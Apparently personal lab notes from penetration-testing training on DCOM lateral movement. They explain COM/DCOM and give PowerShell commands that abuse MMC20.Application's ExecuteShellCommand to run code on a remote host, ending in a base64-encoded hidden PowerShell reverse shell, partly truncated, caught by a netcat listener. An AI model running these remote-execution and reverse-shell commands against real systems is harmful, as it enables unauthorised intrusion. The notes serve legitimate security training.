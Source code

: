  
DCOM (_Distributed Component Object Model_)

- COM
    - System for creating software components that interact with each other
    - COM was created for either same-process or cross-process interaction
    - Extended to DCOM for interaction between multiple computers over a network
- Interaction with DCOM is performed over RPC on TCP port 135
    - [Local administrator] access is required to call the DCOM Service Control Manager
        - (API)
- DCOM lateral movement techniques
    - Cybereason
        - [https://www.cybereason.com/blog/dcom-lateral-movement-techniques](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)

Example:

- _Microsoft Management Console_ (MMC) COM application
    - Employed for scripted automation of Windows systems.
- MMC Application Class allows the creation of _Application Objects_
    - Exposes the ExecuteShellCommand method under the Document.ActiveView property
        - [Allows the execution of any shell command as long as the authenticated user is authorized (i.e. local admin)]
- Set up:
    - jen user logged in from the already compromised Windows 11 CLIENT74 host.
- Start:  
    - From an elevated PowerShell prompt, we can instantiate a remote MMC 2.0 application by specifying the target IP of FILES04 as the second argument of the GetTypeFromProgID method.  
    - `$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.218.72"))`  
    - Once the application object is saved into the _$dcom_ variable, we can pass the required argument to the application via the **ExecuteShellCommand** method. The method accepts four parameters: **Command**, **Directory**, **Parameters**, and **WindowState**. We're only interested in the first and third parameters, which will be populated with **cmd** and **/c calc**.  
    - `$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")`  
    - Once we execute these two PowerShell lines from CLIENT74, we should have spawned an instance of the calculator app.  
    - Because it's within Session 0, we can verify the calculator app is running with **tasklist** and filtering out the output with **findstr**.  
    - `tasklist | findstr "calc"`  
    - Start listener on Kali  
    - `nv -lvnp 443`  
    - Replace our DCOM payload with the base64 encoded reverse shell with from Python script from _WMI and WinRM_ section.  
    - `$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A... AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")`  
    - verify on kali  
    - `whoami`  
    - `hostname`